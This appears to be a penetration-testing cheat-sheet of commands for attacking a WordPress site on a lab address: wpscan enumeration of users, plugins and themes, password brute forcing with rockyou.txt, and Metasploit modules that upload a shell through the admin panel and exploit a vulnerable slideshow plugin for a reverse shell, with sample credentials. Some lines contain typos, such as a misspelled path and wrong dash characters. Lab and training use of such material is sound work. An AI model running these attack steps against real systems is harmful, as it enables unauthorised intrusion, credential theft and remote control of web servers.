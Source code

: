 wpscan --url http://192.168.1.105/wordpress/ #Scanning the WordPress version of the target’s website

#Scan Aborted: The URL supplied redirects to,ignore the redirection and scan the target
wpscan --url http://192.168.1.105 --ignore-main-redirect

wpscan --url http://192.168.1.105/wordpress/ -e ap #Enumerating WordPress Plugins
wpscan --url http://192.168.1.105/wordpresws/ -e at #Enumerating WordPress Themes
wpscan --url http://192.168.1.105/wordpress/ -e at –e ap –e u #Enumerate ALL with a single command
wpscan –url http://192.168.1.105/wordpress/ -e u #Enumerating WordPress Usernames

#scan a WordPress web-application running over a proxy server
#use the proxy port in order to scan the web-application
wpscan --url http://192.168.1.105/wordpress/ --proxy http://192.168.1.105:3128

#Scanning with an HTTP Authentication enabled
wpscan --url http://192.168.1.105/wordpress/ --http-auth raj:123


#With the help of usernames enumerated earlier
#create a word list of all the users 
#rockyou.txt password file which comes with kali standard installation and contains 14341564 unique passwords
wpscan --url http://192.168.1.105/wordpress/ -U user.txt -P /usr/share/wordlists/rockyou.txt 

#get to the Metasploit console and then run WordPress module
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit

#Shell Upload using Metasploit
#This module takes an administrator username and password, logs into the admin panel, and uploads a payload packaged as a WordPress plugin
#gives the meterpreter session of the webserver

$msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf exploit(wp_admin_shell_upload) > set rhosts 192.168.1.105
msf exploit(wp_admin_shell_upload) > set username admin
msf exploit(wp_admin_shell_upload) > set password jessica
msf exploit(wp_admin_shell_upload) > set targeturi /wordpress
msf exploit(wp_admin_shell_upload) > exploit

#found a vulnerable plugin i.e. “slideshowgallery” which contains an authenticated file upload vulnerability
#the following module offers a reverse shell

use exploit/unix/webapp/wp_slideshowgallery_upload
msf exploit(wp_slideshowgallery _upload) > set rhost 192.168.1.105
msf exploit(wp_ slideshowgallery _upload) > set targeturi /wordpress
msf exploit(wp_ slideshowgallery _upload) > set username admin
msf exploit(wp_ slideshowgallery _upload) > set password jessica
msf exploit(wp_ slideshowgallery _upload) > exploit
